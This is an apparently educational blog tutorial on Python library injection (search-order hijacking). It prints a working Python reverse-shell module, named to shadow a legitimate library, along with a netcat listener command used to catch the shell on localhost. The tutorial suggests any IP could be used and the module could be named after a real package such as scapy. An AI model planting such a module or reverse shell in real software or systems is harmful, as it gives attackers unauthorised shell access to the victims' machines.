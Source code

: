 ```yaml
---
title: Python Library Injection
tags: [Python, Injection]
style: fill  
color: primary    
description:  Demonstration of how you can insert a file at the right location, you can use it to hijack Python execution.
---
```


## Table of contents

<!--ts-->
* [Introduction](##Introduction)
* [Safelibrary.py](##Safelibrary.py)
* [LibraryInjection.py](##LibraryInjection.py)
* [Execution](##Execution)
* [References](##References)

<!--te-->

## Introduction

Python library injection is an example of Search order hijacking. So when you try to import a particular library in Python, you don't always have to specify the entire path to that Python library. The Windows and Linux file systems use the PATH variable on the system to list where it will look for particular libraries, programs, etc. And so this order of operations can be hijacked, because if you have a library or executable at a location higher on that path or that search list then the legitimate one. Then when someone attempts to use that particular Python library they're going to use your version instead of the version that they're looking for.

## Safelibrary.py

In this article, we're going to talk about Python library injection and demonstrate how If you can insert a file at the right location, you can use it to hijack Python execution.

So we're going to start out by looking at a file called safelibrary.py. 

![code](../assets/img/python-library-injection/1.png)

```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

subprocess.call(["/bin/sh","-i"])
```
And so this is an example of what we're planning on hijacking in this article. So we could just as easily name this after some Python package that we actually use something like scapy or any famous library. And if we hijack the search order that Python uses, then we have the ability to have our code run instead of a legitimate version.

This code is an example of a reverse shell written in Python. It's a common example you can find a one-liner for this many different places on Github. So this is going to open up a connection to connecting to a particular IP address on a particular port. We're using the local host in this instance, but of course, you can use any IP address, any port, etc.

## LibraryInjection.py

We have LibraryInjection.py as a legitimate file, So if we open up LibraryInjection.py, we see that this is a relatively simple program it's designed just to demonstrate this potential hijacking.

![code](../assets/img/python-library-injection/2.png)

```
import safelibrary

print("Hello World")
```

## Execution

we are obviously using a library name that isn't defined elsewhere on the system.
However, we can easily replace this with something else on the system. And the reason why is that Python when it's performing its search for the library to import typically starts in the current folder.
In this case, since we have LibraryInjection.py and safelibrary.py in the same folder Safelibrary our version will be the version imported at this first line of library injection. And when we import that program, it's going to run the program which we saw sets up a reverse shell on the system. 

Let run Netcat listener using `nc -l 127.0.0.1 1337`  on the right side of the screen then run LibraryInjection.py
We can see `$` sign appears which indicates that we got a reverse shell.

![code](../assets/img/python-library-injection/3.png)

This is one example of hijacking there's a variety of other examples out there and recommend checking out that section of the MITRE attack framework to learn how to adapt this particular attack, vector to other types of search order hijacking. Thank you.

## References
- [Python for Cybersecurity Specialization](https://www.coursera.org/learn/execution-persistence-privilege-escalation-and-evasion/home/welcome){:target="_blank" rel="noopener"}
- [python-for-cybersecurity](https://github.com/hposton/python-for-cybersecurity/tree/main/Part_6/6.2_Python_Library_Injection){:target="_blank" rel="noopener"}

##### -------------------------------- I really hope you found this useful. --------------------------------